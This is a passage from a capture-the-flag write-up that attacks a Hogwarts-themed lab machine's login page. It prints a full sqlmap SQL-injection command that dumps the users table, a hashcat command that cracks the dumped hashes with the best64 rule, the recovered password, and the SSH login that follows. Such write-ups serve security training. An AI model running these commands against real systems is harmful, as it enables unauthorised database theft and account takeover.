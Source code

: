 There we go, `SQLI` is possible in this website, let's proceed to exploitation.




# EXPLOITATION
---


Since we already know we got `SQLI`, we can use `sqlmap` to speed up the process:


```
sqlmap -u 'http://hogwartz-castle.thm/login' --random-agent --method POST --data 'user=Harry&password=pass' -p user --skip passwrd --level 5 --risk 3 --dbms SQLite --dump -T users -C name,password,admin,notes --flush-session --threads 10 --no-cast --tamper unionalltounion --union-char 1337
```

From this, we can get a series of hashes, once we save all those hashes, we can proceed to crack them. There's a hint on how to crack them, it says:

```
My linux username is my first name, and password uses best64
```

So, by doing this, we can crack it using hashcat:

```
hashcat --force -m 1700 hashes2.txt spellnames.txt -r /usr/share/doc/hashcat/rules/best64.rule
```

We get the following:

```
b326e7a664d756c39c9e09a98438b08226f98b89188ad144dd655f140674b5eb3fdac0f19bb3903be1f52c40c252c0e7ea7f5050dec63cf3c85290c0a2c5c885:wingardiumleviosa123
```

There we go, we got the credentials, since the username is the first name of him, we got some username on the sqlmap scan:

```
harry:wingardiumleviosa123
```


We can now go into ssh using those credentials:

![Pasted image 20250404182627.png](../../IMAGES/Pasted%20image%2020250404182627.png)
